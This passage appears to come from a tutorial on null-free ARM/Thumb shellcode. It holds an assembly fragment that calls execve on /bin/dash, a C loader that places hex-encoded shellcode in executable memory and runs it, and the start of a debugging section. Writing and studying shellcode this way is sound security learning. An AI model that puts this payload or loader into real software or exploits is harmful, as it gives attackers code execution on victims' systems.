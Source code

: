```s title:nullfree_execve.s
        strb r2, [r0, #9]   // 6. Null-terminate the string
        mov r7, #11         // 7. Set execve syscall number
        svc #1              // 8. Execute syscall

.ascii "/bin/dashY"         // 9. The command string

```

It's not strictly **compulsory** to use `.ARM` and `.THUMB` directives in your assembly code, but they serve important purposes and make your intentions clearer.

If your code has **both ARM and Thumb sections**, directives help the assembler:
- Generate correct opcodes (32-bit vs 16-bit).
- Avoid misaligned instructions.

**Test with a C loader:**

```c title:loader.c
#include <stdio.h>
#include <sys/mman.h>
#include <string.h>

int main() {
    /* unsigned char code[] = {
        0x08,0x00,0x8f,0xe2,0x01,0x10,0x21,0xe0,
        0x02,0x20,0x22,0xe0,0x0b,0x70,0xa0,0xe3,
        0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68,0x58
    }; */

    unsigned char shellcode[] =   "\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\xa0\x49\x1a\x0a\x1c\x42\x72\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x64\x61\x73\x68\x59\xc0\x46";

    void *mem = mmap(NULL, sizeof(shellcode), PROT_READ|PROT_WRITE|PROT_EXEC, MAP_ANONYMOUS|MAP_PRIVATE, -1, 0);
    memcpy(mem, shellcode, sizeof(shellcode));
    // ((void (*)(void))mem)();
    int (*ret)() = (int(*)())mem;
    ret();
    
    return 0;
}
```



To install libc of `armhf`

```bash
sudo apt install libc6-armhf-cross
```



While debugging you may face `SIGSEGV` (segmentation fault) at the `strb` instruction occurs when you try to write to a read-only memory location.

#### Root Cause Analysis
